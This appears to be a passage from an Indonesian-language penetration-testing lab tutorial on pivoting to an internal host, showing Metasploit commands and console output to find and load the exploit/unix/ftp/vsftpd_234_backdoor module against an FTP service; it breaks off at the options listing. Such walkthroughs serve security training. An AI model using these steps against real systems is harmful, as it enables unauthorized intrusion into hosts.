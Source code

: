### 4. Lanjutkan Eksploitasi ke Mesin Internal

   1. Setelah menemukan host yang aktif dan host tersebut memiliki kerentanan (vulnerability). Maka tahap selanjutnya adalah mengeksploitasi host tersebut sesuai dengan vulnerability-nya. Disini berhubung kerentanannya ada pada service `FTP` dengan versi `vsftpd 2.3.4`, kita cari kerentanan tersebut dengan:

      ```
      search vsftpd 2.3.4
      ```

      Hasil output-nya seperti ini:

      ```
      msf6 auxiliary(scanner/discovery/arp_sweep) > search vsftpd 2.3.4

      Matching Modules
      ================

         #  Name                                  Disclosure Date  Rank       Check  Description
         -  ----                                  ---------------  ----       -----  -----------
         0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


      Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
      ```

      Dari hasil tersebut ditemukan exploit `VSFTPD v2.3.4 Backdoor Command Execution` dengan nama modul `exploit/unix/ftp/vsftpd_234_backdoor`.

   2. Gunakan Modul Tersebut:

      ```
      use exploit/unix/ftp/vsftpd_234_backdoor
      ```

      Atau bisa dengan:

      ```
      use 0
      ```

      > Angka `0` itu ID dari modul Metasploit.

   3. Lihat Opsi Konfigurasi:

      ```
      show options
      ```

      Hasil output-nya seperti ini:

      ```
      msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options 
